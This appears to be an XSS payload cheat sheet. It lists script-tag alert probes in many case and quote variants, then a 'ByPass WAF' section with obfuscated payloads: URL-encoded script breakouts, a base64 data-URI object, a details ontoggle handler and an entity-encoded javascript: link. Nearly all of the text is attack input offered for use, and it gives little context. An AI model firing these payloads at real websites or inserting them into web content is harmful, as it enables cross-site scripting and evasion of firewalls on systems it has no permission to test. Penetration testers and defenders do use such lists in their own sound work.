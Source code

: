     <script>alert(123);</script>
    <ScRipT>alert("XSS");</ScRipT>
    <script>alert(123)</script>
    <script>alert("hellox worldss");</script>
    <script>alert(“XSS”)</script> 
    <script>alert(“XSS”);</script>
    <script>alert(‘XSS’)</script>
    “><script>alert(“XSS”)</script>
    <script>alert(/XSS”)</script>
    <script>alert(/XSS/)</script>
    </script><script>alert(1)</script>
    ‘; alert(1);
    ‘)alert(1);//
    <ScRiPt>alert(1)</sCriPt>


## ByPass WAF

    </script><svg><script>alert(1)-%26apos%3B
    anythinglr00</script><script>alert(document.domain)</script>uxldz

    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    <a href=javas&#99;ript:alert(1)>
